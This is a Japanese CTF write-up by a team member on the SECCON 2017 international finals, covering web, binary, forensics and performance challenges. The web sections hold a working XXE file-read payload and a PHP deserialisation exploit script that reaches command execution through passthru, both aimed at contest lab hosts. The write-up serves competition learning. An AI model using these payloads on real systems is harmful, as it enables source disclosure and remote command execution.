




チーム Bluemermaid として [うさぎさん](https://twitter.com/a3VtYQo)、[hikalium さん](https://twitter.com/hikalium)、[hiww さん](https://twitter.com/hiww)と [SECCON 2017 国際決勝大会](https://2017.seccon.jp/news/seccon2017-finals-outline&team-list.html)に参加しました。最終的にチームで 1703 点 (攻撃ポイント 1200 点 + 防御ポイント 503 点) を獲得し、順位は参加 15 チーム中 10 位でした。

この大会では King of the Hill 形式で壱、弐、参、四、伍の 5 問、Jeopardy 形式で 5 問が出題されましたが、そのうち私が挑戦した問題について write-up を書いてみます。

## 壱

> Brainhack  
> http://10.0.21.89:8989/  
> The system specification:  
>     docker host: Ubuntu 16.04 TLS  
>     docker container: nginx:1.13.8-alpine  
>     docker container: php:7.2.1-fpm (read-only container and append only files)  
>     docker-compose version 1.18.0, build 8dd22a9

Brainf*ck コーディング + Pwn 問? どういう問題か把握できていないです、すみません。

私が問題を見た時点で、うさぎさんが OS コマンドの実行にまで持ち込み 4 つ中 3 つのフラグを見つけられていたものの、最後の 1 つの場所が分からないということでした。

もしかしてバイナリ中にあるのではと `strings /usr/local/bin/brainhack` を試してみたところフラグが得られました。

```
SECCON{This must be too easy for you.}
```

## 参

> http://10.0.23.1/

この問題文のほかに、Raspberry Pi と SSH の接続情報が与えられました。

問題文の URL にアクセスすると、RasPi にあるビンゴサービスをセットアップして `80` 番ポートで動かせという指示がありました。

RasPi に SSH で接続すると `/home/pi/bingom` に `cgi-bin/bingo.cgi` (ビンゴサービスの本体)、`exec.sh` (`sudo python -m CGIHTTPServer 80`) のようなファイルが用意されていました。

これを高速化し、ベンチマークの時間が 20 秒以内なら攻撃ポイントを得られ、全チーム中最も高速であれば防御ポイントが得られるという問題でした。

まず CGI なのがめんどくさかったので Flask に書き換え。画像数百枚分を一度に生成していたので画像が取得される際に生成されるように修正。以下のように 1 枚画像を生成するごとに 25 回画像を読み込む箇所があったのでこれを事前に読み込んでおくように修正。

```python
def make_imagemap_from_data(userid, bingo, called_nums):
	card = [cv2.imread("bingotitle.jpg")]
	for i in range(5):
		line_ = []
		for j in range(5):
			n = bingo[ (i * 5) + j ]
			if not n in called_nums:
				one = cv2.imread("numbers/blue_" + ("%02d" % n) + ".jpg")
			else:
				one = cv2.imread("numbers/gray_" + ("%02d" % n) + ".jpg")
			line_.append(one)
		card.append(cv2.hconcat(line_))
	img = cv2.vconcat(card)
	# ...
```

これでフラグが得られました。大分いい加減にやっている感じがあるんですが、本当に攻撃ポイントをもらってしまってよかったんでしょうか…。

```
SECCON{BINGO-SERVICE}
```

## 四

> connect to following destinations from top to bottom.  
> 10.0.24.1/24:13  
> 10.0.24.2/24:12  
> 10.0.24.3/24:11  
> 10.0.24.4/24:10  
> 10.0.24.5/24:9  
> 10.0.24.6/24:8  
> 10.0.24.7/24:7  
> 10.0.24.8/24:6  
> 10.0.24.9/24:5  
> 10.0.24.10/24:4  
> 10.0.24.11/24:3  
> 10.0.24.12/24:2  
> 10.0.24.13/24:1  
> 10.0.24.14/24:65535

`nc 10.0.24.3 10` で `0`、`nc 10.0.24.1 1027` で `a` が出力される…という感じで、列挙されている IP アドレスに適当なポートで接続するとランダムな (?) 1 文字が出力されます。このとき出力された文字は `192.168.3.0.txt` に書き込まれます。

これを使って `192.168.3.0.txt` にディフェンスキーワードを書き込むことで防御ポイントが得られます。

1 日目は同じ IP アドレスとポートに何度接続しても大丈夫だったので、以下のようにあらかじめ `0123456789abcdef` が出力される IP アドレスとポートを調べておいて、それを元にディフェンスキーワードを書き込むという戦法で防御ポイントを稼いでいました。

```python
import socket
import time
from defense import get_keyword

t = {}

def init_table(x=1000, y=2000):
  global t
  t = {}
  for y in range(x, y):
    for x in range(1, 15):
      addr = '10.0.24.%d' % x
      sock = socket.create_connection((addr, y))
      c = sock.recv(1)
      if c in '0123456789abcdef' and c not in t:
        t[c] = (addr, y)
      if len(t.items()) == 16:
        return
      sock.close()

i = 12345
while True:
  init_table(i, i + 100)
  flag = get_keyword()
  print 'i:', i
  print 'Defense Keyword:', flag
  for c in flag:
    sock = socket.create_connection(t[c])
    print sock.recv(1)
    sock.close()
  i += 100
  time.sleep(300)
```

2 日目は同じ IP アドレスとポートに一度しか接続できなくなり (?) 悩んでいました。

よく分からない問題でした。

## 六 (Jeopardy)

### [Web 100] xands (1)

> http://xands.seccon

与えられた URL にアクセスすると、Autoindex で `1/` と `2/` という 2 つのディレクトリへのリンクが表示されました。

`1/` には以下のようなファイルがありました。

- `1.php`
- `1.xml`
- `favor.dtd`
- `pwd.txt`

`1.php` にアクセスすると `1.php?file=1.xml` にリダイレクトされ、国際決勝の参加チームの一覧が表示されました。他のファイルは以下のような内容でした。

`1.xml`

```xml
<?xml version="1.0" encoding="utf-8" ?>
<finals>
  <team>
    <no>1</no>
    <nation>TW</nation>
    <name>217</name>
    <qualif>Online CTF</qualif>
  </team>
...
  <team>
    <no>15</no>
    <nation>TW</nation>
    <name>1$@AIS3</name>
    <qualif>AIS3 (Invitation)</qualif>
  </team>
</finals>
```

`favor.dtd`

```
<!ENTITY favor "%a;%b;%c;">
```

`pwd.txt`

```
/var/www/html/1/pwd.txt
```

`1.php` の `file` パラメータで外部の XML を処理させることができないか、`8000` 番ポートで待ち受けて `1.php?file=http://192.168.3.9:8000/1.xml` を試すと、アクセスが来ました。

与えられたファイルや、好きな内容の XML を処理させることができるということで思い出されるのは XXE です。

以下のような XML を処理させることで `1.php` のソースコードとフラグが得られました。

```xml
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE x [ 
  <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/1/1.php">
] >
<finals>
  <team>
    <no>1</no>
    <nation>2</nation>
    <name>3</name>
    <qualif>&xxe;</qualif>
  </team>
</finals>
```

```php
<?php
  if(empty($_GET['file'])) {
    header('Location: ?file=1.xml');
    exit;
  }
?><html>
<head>
  <title>1.php</title>
  <!-- by KeigoYAMAZAKI, 2018.01.17- -->
</head>
<body>
<h2>1.php</h2><p></p>
<table border="1">
<tr style="background-color:royalblue;color:white"><th>No</th><th>Nationality</th><th>Team Name</th><th>Qualification</th></tr>
<?php

// FLAG(1of2) => SECCON{Im-DTD-master!}

$doc = new DOMDocument();
$doc->substituteEntities = true;
$doc->load($_GET['file']);
foreach($doc->getElementsByTagName('team') as $team) {
  echo "<tr>".
       "<td>".htmlspecialchars($team->getElementsByTagName('no')->item(0)->nodeValue)."</td>".
       "<td>".htmlspecialchars($team->getElementsByTagName('nation')->item(0)->nodeValue)."</td>".
       "<td>".htmlspecialchars($team->getElementsByTagName('name')->item(0)->nodeValue)."</td>".
       "<td>".htmlspecialchars($team->getElementsByTagName('qualif')->item(0)->nodeValue)."</td>".
       "</tr>\n";
}
?>
</table>
</body>
</html>
<?php exit; ?>

*** HINT ***
You can use 'favor.dtd' to retrieve this php source code.
(This file contains FLAG 1of2.)
```

```
SECCON{Im-DTD-master!}
```

### [Web 100] xands (2)

> http://xands.seccon

1 の脆弱性を使うと、`2/2.php` の内容が得られました。

```php
<?php
header('Content-Type: text/plain');

if(empty($_COOKIE['VULN'])) {
  echo 'Parameter Missing.';
  exit;
}

class Vuln {
  private $func;
  private $args;
  public function __construct($func, $args) {
    $this->func = $func;
    $this->args = $args;
  }
  public function __destruct() {
    $dargs = [];
    foreach($this->args as $value) {
      $dargs[] = openssl_decrypt($value, 'aes-256-ecb', apache_getenv("APP_SECRET_KEY"));
    }
    call_user_func_array($this->func, $dargs);
  }
}

$vuln = unserialize($_COOKIE['VULN']);
print_r($vuln);

exit;
?>

*** HINT ***
You can use 'favor.dtd' to retrieve this php source code.
(../1/1.php contains FLAG 1of2.)
```

`new Vuln('関数名', ['引数1', '引数2'])` を serialize したものを Cookie にセットすると好きな関数を呼べるようですが、引数についてはあらかじめ `apache_getenv("APP_SECRET_KEY")` を使って暗号化しておく必要があります。

楽に試せるように、スクリプトを書いておきましょう。

```python
import requests
import sys
import urllib
from subprocess import *

def get_output(s):
  t = 'tmp.php'
  with open(t, 'wb') as f:
    f.write(s)
  return check_output(['php', t]).strip()

def check(url, s):
  return requests.get(url, cookies={
    'VULN': urllib.quote(s)
  }).content

CODE = '''
<?php
class Vuln {
  private $func;
  private $args;
  public function __construct($func, $args) {
    $this->func = $func;
    $this->args = $args;
  }
}

echo serialize(new Vuln('name', ['arg1', 'arg2']));
'''

if __name__ == '__main__':
  if len(sys.argv) < 2:
    URL = 'http://xands.seccon/2/2.php'
  else:
    URL = sys.argv[1]
  print check(URL, get_output(CODE))
```

関数名を `phpinfo` にすると、以下のように `APP_SECRET_KEY` を得ることができました。

```
Apache Environment
Variable	Value

APP_SECRET_KEY	thisissecretkey
HTTP_HOST	xands.seccon
HTTP_CONNECTION	keep-alive
HTTP_ACCEPT_ENCODING	gzip, deflate
HTTP_ACCEPT	*/*
HTTP_USER_AGENT	python-requests/2.11.1
...
```

これで引数に好きなものを与えられるようになりました。以下のように `passthru` で OS コマンドを実行できるようにし、`FLAG(2of2)/` 下にあるファイルを `cat` するとフラグが得られました。

```php
echo serialize(new Vuln('passthru', [
  openssl_encrypt('cat /var/www/html/2/FLAG*/*', 'aes-256-ecb', 'thisissecretkey')
]));
```

```
SECCON{OWASP Top 10 2017 : A4 and A8}
```

### [Binary 100] BadUSB

> (与えられた BadUSB の画像)  
> http://1ot.jp/seccon/badusb.txt

BadUSB と `badusb.hex` という Intel HEX ファイルが与えられました。

とりあえずエディタを起動して BadUSB を挿してみると、`flag is SECCON` とフラグっぽい文字列が入力されました。…が、1 文字ごとに入る sleep が徐々に長くなり、この先はなかなか入力してくれません。

`badusb.hex` を調べていきましょう。まず `objcopy` で `badusb.hex` を ELF に変換、`strings` で文字列を探してみると以下のような結果になりました。

```
$ strings -n 10 badusb.elf
gohb)oq$R@GAFFzb9EljKsGhj7=f
```

printable な文字が続いていて怪しげです。`flag is SECCON` とこの文字列の先頭 14 バイトを xor した結果 (`01 03 09 05 09 06 02 04 01 05 04 02 09 08`) を探すと、見事にそれっぽいバイト列が見つかりました。

```
$ xxd badusb.elf | grep -4 "0103 0905"
0000c30: d701 ed91 fc91 0190 f081 e02d c701 0995  ...........-....
0000c40: f3cf df91 cf91 1f91 0f91 ff90 ef90 0895  ................
0000c50: dc01 ed91 fc91 0280 f381 e02d 0994 42df  ...........-..B.
0000c60: 87dc c0dc fecf ee0f ff1f 0590 f491 e02d  ...............-
0000c70: 0994 f894 ffcf 0000 0001 8000 0103 0905  ................
0000c80: 0906 0204 0105 0402 0908 0103 0101 0203  ................
0000c90: 0403 0902 0304 0802 0907 0100 676f 6862  ............gohb
0000ca0: 296f 7124 5240 4741 4646 7a62 3945 6c6a  )oq$R@GAFFzb9Elj
0000cb0: 4b73 4768 6a37 3d66 7f5d 7c00 ff5a 0a00  KsGhj7=f.]|..Z..
```

あとは見つかった文字列とバイト列を xor するとフラグが得られました。

```
$ python
Python 2.7.9 (default, Mar  1 2015, 12:57:24) 
[GCC 4.9.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> s = '676f6862296f71245240474146467a6239456c6a4b7347686a373d667f5d7c'.decode('hex')
>>> t = '01030905090602040105040209080103010102030403090203040802090701'.decode('hex')
>>> print xor(s, t)
flag is SECCON{a8DniOpNji35dvZ}
```

```
SECCON{a8DniOpNji35dvZ}
```

### [Forensics 100] Old School.

> let's find a flag!
> or, let's find a special place to take a vacation :)
> http://files.seccon/c66ee2da7e036b5a39050275041e509

与えられたファイルがどのようなものか `file` で確認します。

```
$ file c66ee2da7e036b5a39050275041e5095
c66ee2da7e036b5a39050275041e5095: RIFF (little-endian) data, WAVE audio, Microsoft PCM, 8 bit, stereo 140000 Hz
```

再生してみてもただのノイズにしか聞こえず、Audacity で読み込んでスペクトログラムを見ても何が何だか全く分かりません。ラジオか何かでしょうか。



問題文にあるヒント? の `let's find a special place to take a vacation` とラジオっぽい何かという推測を手がかりに過去の CTF の write-up を探していると [CTF:Writeup-Olympic-CTF-Sochi-2014 - Technologia Incognita](https://wiki.techinc.nl/index.php/CTF:Writeup-Olympic-CTF-Sochi-2014) という記事を見つけました。

早速 [SDR#](https://airspy.com/download/) をダウンロードして再生してみると、[和風な曲](https://otowabi.com/music/20171221matatabi/)を BGM にしばらく観光の案内がされた後、フラグが得られました。





```
SECCON{THANKYOUFORLISTENINGTHERADIO}
```

---

(あのヒントはソチのことを言っていたのかと競技中は納得していましたが、ラジオの内容から考えるとそういう意味で書かれたわけでは絶対になさそう…)

### [Forensics 100] find from flood.

> Let's see the workspace.
> http://files.seccon/fbe448afa2c332182d6a01246a92e6d9

与えられたファイルがどのようなものか `file` で確認します。

```
$ file fbe448afa2c332182d6a01246a92e6d9
fbe448afa2c332182d6a01246a92e6d9: Zip archive data, at least v4.5 to extract
```

zip ファイルのようです。展開すると `MEMORY.DMP` という 4 GB ほどの Windows のメモリダンプが出てきました。

Volatility で色々試していると、`TESTUSER` というユーザのデスクトップで何か作業をしていた痕跡が見つかりました。

```
$ vol.py -f MEMORY.DMP --profile=Win7SP1x64 consoles
Volatility Foundation Volatility Framework 2.5
...
**************************************************
ConsoleProcess: conhost.exe Pid: 5764
Console: 0xffbb6200 CommandHistorySize: 50
HistoryBufferCount: 3 HistoryBufferMax: 4
OriginalTitle: %SystemRoot%\system32\cmd.exe
Title: C:\Windows\system32\cmd.exe
AttachedProcess: cmd.exe Pid: 3936 Handle: 0x10
----
CommandHistory: 0x3b1450 Application: volatility-2.4.standalone.exe Flags:
CommandCount: 0 LastAdded: -1 LastDisplayed: -1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x0
----
CommandHistory: 0x3b1270 Application: volatility-2.4.standalone.exe Flags:
CommandCount: 0 LastAdded: -1 LastDisplayed: -1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x0
----
CommandHistory: 0x3b1090 Application: cmd.exe Flags: Allocated, Reset
CommandCount: 5 LastAdded: 4 LastDisplayed: 2
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x10
Cmd #0 at 0x3749f0: cd Desktop
Cmd #1 at 0x387fe0: dir
Cmd #2 at 0x334370: volatility-2.4.standalone.exe
Cmd #3 at 0x374930: mspaint
Cmd #4 at 0x3b29c0: volatility-2.4.standalone.exe
----
Screen 0x33d280 X:80 Y:300
Dump:
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\TESTUSER>cd Desktop

C:\Users\TESTUSER\Desktop>dir
 ???????? C ???????????? ????????????????????
 ?????????? ?????????????? 3013-6827 ????

 C:\Users\TESTUSER\Desktop ??????????????

2018/02/17  07:46    <DIR>          .
2018/02/17  07:46    <DIR>          ..
2018/02/17  07:46    <DIR>          SHARE
2018/02/17  04:56             1,335 ???????????????? ????????.lnk
               1 ????????????               1,335 ??????
               3 ????????????????  109,634,777,088 ????????????????

C:\Users\TESTUSER\Desktop>volatility-2.4.standalone.exe
Volatility Foundation Volatility Framework 2.4
ERROR   : volatility.debug    : You must specify something to do (try -h)

C:\Users\TESTUSER\Desktop>mspaint

C:\Users\TESTUSER\Desktop>volatility-2.4.standalone.exe
Volatility Foundation Volatility Framework 2.4
ERROR   : volatility.debug    : You must specify something to do (try -h)

C:\Users\TESTUSER\Desktop>
```

`Let's see the workspace.` という問題文から Desktop で開かれていたファイルを探すと、いくつか見つかりました。

```
$ vol.py -f MEMORY.DMP --profile=Win7SP1x64 filescan | grep Desktop
0x000000000379a760     16      0 RWD--- \Device\HarddiskVolume2\Users\TESTUSER\Desktop\datatype.png
0x0000000107c94f20     16      0 R--rwd \Device\HarddiskVolume2\Users\TESTUSER\Desktop\~$CATION PLAN.docx
0x0000000107e29f20     16      0 RW---- \Device\HarddiskVolume2\Users\TESTUSER\Desktop\SHARE\datatype2.png
0x000000010841b2b0     16      0 R--rwd \Device\HarddiskVolume2\Windows\servicing\Packages\Microsoft-Windows-RemoteDesktopService-WinIP-Package~31bf3856ad364e35~amd64~ja-JP~7.1.7601.16398.mum
0x00000001085ad490      2      1 R--rw- \Device\HarddiskVolume2\Users\TESTUSER\Desktop\SHARE
0x00000001087abf20     16      0 R--rwd \Device\HarddiskVolume2\ProgramData\Microsoft\Windows\Start Menu\Programs\Accessories\Remote Desktop Connection.lnk
0x0000000109627370      2      1 R--rwd \Device\HarddiskVolume2\Users\TESTUSER\Desktop
0x00000001096a2270      2      0 R--rwd \Device\HarddiskVolume2\Users\TESTUSER\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Accessories\Desktop.ini
0x00000001096a93b0     16      0 R--rwd \Device\HarddiskVolume2\ProgramData\Microsoft\Windows\Start Menu\Programs\Accessories\Desktop.ini
0x00000001096ab520     16      0 R--rwd \Device\HarddiskVolume2\ProgramData\Microsoft\Windows\Start Menu\Programs\Accessories\Accessibility\Desktop.ini
0x00000001096b2070      2      0 R--rwd \Device\HarddiskVolume2\Users\TESTUSER\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Accessories\Accessibility\Desktop.ini
0x00000001096b2960      2      0 R--rwd \Device\HarddiskVolume2\Users\TESTUSER\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Accessories\System Tools\Desktop.ini
0x00000001096b3520      2      0 R--rwd \Device\HarddiskVolume2\Users\TESTUSER\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Maintenance\Desktop.ini
```

`vol.py -f MEMORY.DMP --profile=Win7SP1x64 dumpfiles -Q 0x0000000107e29f20 --name -D dumpfiles` で `C:\Users\TESTUSER\Desktop\SHARE\datatype2.png` を抽出するとフラグが得られました。



```
SECCON{a3359f96cdcf63bcd68a76c77acc1ebd}
```

## いろいろ

### 競技中に私がやっていたこと

1 日目の朝昼は会場でしか挑めなさそうだった KotH の参と四と Jeopardy の xands に挑戦し、参と xands の攻撃ポイントをゲットしていました。xands 以外の Jeopardy の問題はホテルに帰ってから解くことにしていたものの、夜は眠すぎて全く進捗が出せず。朝起きてから Forensics で 1 問 (find from flood.) 解けたのはよかったのですが、夜はとっとと諦めてもうちょっと早く寝ればよかったなあと少し後悔しています。睡眠は大事。

2 日目の朝昼は参と四の防御ポイントを取れないかいろいろ試したり、前日に解ききれなかった Jeopardy を解く作業をしていました。結果は Jeopardy の BadUSB と Old School. (…と、壱の strings) を解いたのみでア。四の防御ポイントは 1 日目から仕様変更があり悩んでいましたが、うさぎさんが通されていました。

### 感想

- SECCON の決勝大会への参加は 2015 年度の決勝大会 (intercollege) 以来だったので、緊張してもし 1 問も解けなかったらどうしようという感じで戦々恐々としていました。
- 国内決勝で面白い Web 問が出たこともあって国際決勝でいっぱい楽しい Web 問が出たらいいなあとワクワクしていたのですが、結局参と xands のみ? で悲しかったです。Pwn を頑張る機運が高まります。
- 参について、攻撃ポイントは手に入れられたものの、防御ポイントは 1 点も取ることができず無念に思います。ISUCON にはこれまで挑戦したことがなかったのですが、結構面白いし勉強しなければという気持ちになりました。
- Jeopardy は write-up で書いたほかに OnlyOnceMemo という Pwn の 1 問があったのですが、これは全く分からなかったです。すみません。
- Harekaze と Bluemermaid の扇子を頂けてとても嬉しかったです。

[国内決勝の write-up](2018-02-23-seccon-2017-domestic-finals.html) でも書きましたが、次回以降の SECCON の決勝大会に参加できるよう精進をしていきたいと思います。チームメンバー、参加者および運営の皆様ありがとうございました。